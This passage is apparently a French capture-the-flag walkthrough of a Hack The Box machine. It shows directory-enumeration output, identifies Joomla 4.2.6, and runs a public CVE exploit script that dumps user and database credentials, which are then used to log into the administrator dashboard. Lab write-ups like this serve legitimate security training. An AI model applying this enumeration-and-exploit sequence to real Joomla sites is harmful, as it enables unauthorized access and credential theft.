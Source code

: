 ```bash
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/robots.txt           (Status: 200) [Size: 764]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
```

### Administrator page
Il y a une page /administrator avec un login/pass. On peut voir le nom de l'outil qui permet cette page de connexion, **Joomla!**.

On peut trouver la version de Joomla! ici : http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
Version: **4.2.6**

En cherchant sur internet, on trouve rapidement une CVE sur cette version de Joomla ainsi qu'un repo github qui permet de l'exploiter
```bash
└─$ ruby exploit.rb http://dev.devvortex.htb:80
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
On trouve donc les credentials suivant:
user: **lewis**
mot de passe: **P4ntherg0t1n5r3c0n##**

En essayant de se connecter sur la page de login ça fonctionne! on arrive ensuite sur un Dashboard.
